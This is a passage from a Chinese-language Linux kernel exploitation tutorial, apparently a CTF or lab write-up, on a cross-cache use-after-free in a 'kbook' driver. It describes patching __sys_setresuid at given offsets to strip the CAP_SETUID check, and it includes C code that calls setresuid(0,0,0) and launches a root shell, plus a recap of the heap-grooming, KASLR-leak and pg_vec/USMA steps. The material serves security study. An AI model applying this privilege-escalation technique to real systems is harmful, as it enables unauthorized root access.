内核代码修补阶段针对`__sys_setresuid`函数的四个关键位置进行精确指令替换。在偏移0x152、0x160和0x16d处，将原始权限检查指令替换为`xor rax, rax`（将rax寄存器清零）和nop指令，这些位置原本进行权限检查，修改后使检查始终通过。在偏移0x267处，将条件跳转指令替换为nop序列，使权限失败时的跳转逻辑失效。

**修改效果**：四个补丁共同作用，完全消除了`__sys_setresuid`函数的权限检查逻辑。前三个补丁通过清零rax寄存器影响条件判断，使权限检查始终通过。第四个补丁通过nop序列替换条件跳转，使权限失败时的错误返回路径失效。修改后的函数无论调用者是否具备CAP_SETUID能力，都能成功执行UID设置操作。

**技术要点**：通过精确的偏移计算定位目标指令位置；使用最小化的指令修改实现功能变更；确保指令长度匹配，避免破坏函数结构；顺序应用多个补丁，逐步修改目标逻辑。

### 4-6. 阶段五：权限获取验证

**技术目标**：验证内核代码修改的实际效果，恢复系统原始状态，确保操作完整性和系统稳定性，完成整个利用流程。

**权限获取验证流程图**：

```mermaid
sequenceDiagram
    participant 利用进程
    participant kbook驱动
    participant 内核空间
    participant 权限管理

    利用进程->>kbook驱动: 恢复原始buffer指针
    利用进程->>内核空间: setresuid(0, 0, 0)

    alt 代码修改成功
        内核空间->>权限管理: 更新用户凭证为root
        内核空间-->>利用进程: 返回0
        利用进程->>权限管理: geteuid()
        权限管理-->>利用进程: 返回0
        利用进程->>利用进程: 启动root shell
    else 代码修改失败
        内核空间-->>利用进程: 返回-EPERM
    end
```

**核心实现逻辑**：

```c
int phase_privilege_escalation(void) {
    /* 恢复原始pg_vec[i].buffer指针值，避免内核崩溃 */
    write(book_fds[book_idx], &original_pgvec_buffer, 8);

    /* 触发修改后的setresuid函数，验证权限修改效果 */
    if (setresuid(0, 0, 0) < 0) {
        return -1;
    }

    /* 验证当前权限状态，确认修改是否生效 */
    if (geteuid() == 0) {
        get_root_shell();  // 启动root shell
        return 0;
    }
    return -1;
}
```

**系统shell启动实现**：

```c
void get_root_shell(void) {
    char *shell_args[] = {"/bin/sh", NULL};
    char *shell_env[] = {NULL};
    execve("/bin/sh", shell_args, shell_env);
}
```

**验证结果分析**：

权限获取验证阶段通过三个步骤确认利用效果。首先成功恢复原始指针状态，确保系统稳定性。然后通过系统调用触发修改后的内核函数，验证代码修改的实际效果。最后通过权限检查确认权限状态变更，启动root shell提供进一步的验证环境。整个验证过程确保了利用的完整性和可靠性。

**状态恢复机制**：

1. **指针恢复**：将pg_vec[i].buffer恢复为原始值，避免后续内存访问异常
2. **资源清理**：清理PGV系统资源，释放占用的内存
3. **错误处理**：完善的错误检测和处理机制，确保系统稳定
4. **日志记录**：详细的操作日志，便于问题分析和调试

**技术要点**：通过系统调用触发验证修改后的内核功能；多维度权限验证确保修改效果符合预期；恢复原始指针状态避免系统不稳定；启动交互式shell提供进一步验证环境。

### 4-7. 技术总结

本章详细分析了一个完整的Cross-Cache UAF漏洞利用实例，其核心是通过页级堆风水操作将属于不同缓存（kbook_jar的kmalloc-1k/order 2和user_key_payload的kmalloc-512/order 1）的内存对象转换为重叠的缓存，利用UAF漏洞转化为跨缓存UAF条件，进而结合USMA技术实现内核代码修补和权限验证。整个技术验证流程分为五个紧密衔接的阶段，形成了一个完整的技术验证链条。

第一阶段通过环境准备建立稳定的操作基础，包括CPU核心绑定、PGV系统初始化和设备文件描述符管理。CPU绑定确保内存操作的时序可预测性，PGV系统为后续内存映射提供基础设施，多文件描述符设计支持并行操作能力，为后续复杂的内存操作创造了有利条件。

第二阶段通过堆风水布局与信息泄露实现Cross-Cache UAF条件创建。通过系统性的内存分配、释放和重新分配操作，创建可控的内存布局环境。首先分配kbook_jar对象建立初始布局，然后完全释放创建UAF条件，接着分配user_key_payload对象实现跨缓存内存重叠。当order 1页面耗尽后，内存分配器会从order 2页面池中切割内存，使user_key_payload对象占用之前释放的kbook_jar缓存页面。利用UAF漏洞读取user_key_payload结构中的函数指针，计算内核基址和目标函数地址，成功绕过KASLR保护机制。

第三阶段实现内存控制建立，通过释放目标密钥对象并重新分配为PGV结构体数组，建立对关键数据结构的控制。通过精确的时序控制确保内存的可靠重用，保存原始指针值支持状态恢复，重定向buffer指针建立内存访问通道。通过特征识别算法查找包含目标内核代码页的PGV槽位，为后续内核代码修补创造条件。

第四阶段完成内核代码修补，通过已建立的内存控制通道精确修改目标内核函数的指令逻辑。针对`__sys_setresuid`函数的四个关键位置进行精确指令替换，将权限检查指令修改为无操作或寄存器清零指令，完全消除函数的权限检查逻辑。修改后的函数无论调用者是否具备相应能力，都能成功执行UID设置操作。

第五阶段进行权限验证与状态恢复，验证内核代码修改的实际效果，恢复系统原始状态，确保操作完整性和系统稳定性。通过系统调用触发修改后的内核函数，验证权限修改效果，启动交互式shell提供进一步的验证环境。整个验证过程确保了技术验证的完整性和可靠性。

这个技术验证实例展示了现代内核漏洞利用的系统性方法论，包括精确的时序控制、完善的状态管理、详细的日志记录和全面的错误处理。Cross-Cache UAF技术通过页级堆风水操作实现不同缓存间的内存重叠，结合USMA技术的内核代码直接修补能力，形成了一个完整的技术验证链。这个实例为理解内核安全机制、评估系统安全性、设计防护措施提供了重要的技术参考，展示了内存管理机制、权限控制机制和系统调用机制之间的复杂交互关系，对系统安全研究和防护机制设计具有重要的参考价值。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/CrossCacheUAF2
- https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/heap/buddy/cross-cache-uaf/
- https://vul.360.net/archives/391
